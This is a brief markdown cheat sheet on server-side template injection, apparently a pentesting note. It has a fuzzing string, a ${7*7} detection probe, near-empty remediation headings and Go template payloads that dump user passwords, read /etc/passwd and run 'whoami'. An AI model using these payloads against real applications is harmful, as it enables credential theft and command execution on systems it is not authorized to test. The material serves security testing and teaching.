 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*7}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users)

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands
